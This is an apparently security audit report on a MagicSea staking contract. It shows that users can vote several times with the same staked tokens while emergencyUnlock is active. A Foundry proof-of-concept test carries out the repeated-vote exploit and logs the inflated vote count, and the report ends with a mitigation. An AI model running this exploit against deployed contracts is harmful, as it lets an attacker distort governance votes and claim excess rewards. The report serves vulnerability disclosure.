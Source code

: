 Sleepy Navy Ant

Medium

# users can vote multiple times with same stake tokens when emergancyUnlock is set

## Summary

in `MlumStaking` users can stake for a certain period and get rewards and voting power, the owner can set `_emergencyUnlock` which allows users to unlock without waiting for the lockDuration, this allows voters to vote multiple times with the same stake.

## Vulnerability Detail

users can stake their funds by calling `createPosition` where they lock their funds for a certain duration the longer the duration the bigger the lockMultiplier. 

the lockedAmount gives them a share of rewards and voting power. this staked position is represented as a nft that is not transferable.

to vote users need to have a position (nft) that is locked for a certain duration:

- Voter
```solidity
if (_mlumStaking.getStakingPosition(tokenId).initialLockDuration < _minimumLockTime) {
    revert IVoter__InsufficientLockTime();
}
if (_mlumStaking.getStakingPosition(tokenId).lockDuration < _periodDuration) {
    revert IVoter__InsufficientLockTime();
}
```

so their initial lock duration needs to be more than the minimumLockTime and their lockDuration needs to be more than _periodDuration. this is to not allow voter to stake tokens vote with them , then transfer them to another position and vote.

but if `_emergancyUnlock` is set a user can withdraw without waiting the lock duration:

- MlumStaking
```solidity
require(
            _unlockOperators.contains(nftOwner)
                || (position.startLockTime + position.lockDuration) <= _currentBlockTimestamp() || isUnlocked(),
            "locked"
        );
```

which makes it possible for an attacker to vote with one position , then transfer staked tokens to another position and vote with that basically voting twice with the same tokens.

this can be repeated as many times as the attacker wants.

## Proof Of Concept

in this POC , the attacker was able to vote multiple times with the same staking tokens in the same voting period using the emergancyUnlock.

important to note that the attacker doesn't need to frontrun nor predict the emergancy unlock , he can just participate in the staking normally , until the emergancy unlock is set then he can exploit.

- to run : forge test --match-test testVotingMultipleEmergancy -vv

- Voter.t.sol
```solidity
function testVotingMultipleEmergancy() public {
        address attacker = address(0x1337);

        //pool to vote for
        address[] memory pools = new address[](1);
        pools[0] = 0x95f00a7125EC3D78d6B2FCD6FFd9989941eF25fC;

        //amount 
        uint[] memory deltaAmounts = new uint256[](1);
        deltaAmounts[0] = 1.5 ether;

        //attacker creates position and funds it with most staking tokens
        {
            
        _stakingToken.mint(attacker, 2 ether);

        vm.startPrank(attacker);
        _stakingToken.approve(address(_pool), 1000 ether);
        _pool.createPosition(1.5 ether, 4 weeks);
        vm.stopPrank();

        }

        //attacker creates multiple positions with 1 wei
        {

        vm.startPrank(attacker);

        //the attacker can create as many positions as he wants
        for(uint i; i < 10; i++){
            _pool.createPosition(1, 4 weeks);
        }
        vm.stopPrank();

        }

        //owner starts a new voting period
        vm.prank(DEV);
        _voter.startNewVotingPeriod();

        //attacker votes with first position
        {
        vm.startPrank(attacker);
        _voter.vote(1, pools, deltaAmounts);
        console.log("Votes before transfering voting power and voting multiple times: ",_voter.getVotesPerPeriod(1, pools[0]));
        vm.stopPrank();
        }

        //owner starts emergancyUnlock , doesn't matter if attacker voted before or after
        {
        vm.prank(DEV);
        _pool.setEmergencyUnlock(true);
        }

        //attacker withdraws from first position and transfers to the next
        {
        vm.startPrank(attacker);
        _pool.withdrawFromPosition(1, 1.5 ether);

        for(uint i; i < 10; i++){
            _pool.addToPosition(i+2, 1.5 ether);
            _voter.vote(i+2, pools, deltaAmounts);
            _pool.withdrawFromPosition(i+2, 1.5 ether);
        }

        //check that the pool we voted for has all the votes
        console.log("votes after doing the exploit: ", _voter.getVotesPerPeriod(1, pools[0]));
        vm.stopPrank();
        }
    }
```
- logs
```solidity
Votes before transfering voting power and voting multiple times:  1500000000000000000
votes after doing the exploit:  16500000000000000000
```

## Impact

The `emergencyUnlock` feature allows attackers to vote multiple times with the same staked tokens. This enables them to disproportionately influence the voting weight of any pool and gain excessive bribe rewards.

## Code Snippet

https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L397-L428

https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L619-L628

https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/Voter.sol#L153-L179

## Recommendation

To mitigate this issue, either block voting when `emergencyUnlock` is active or prevent users from adding to their positions during the `emergencyUnlock` period.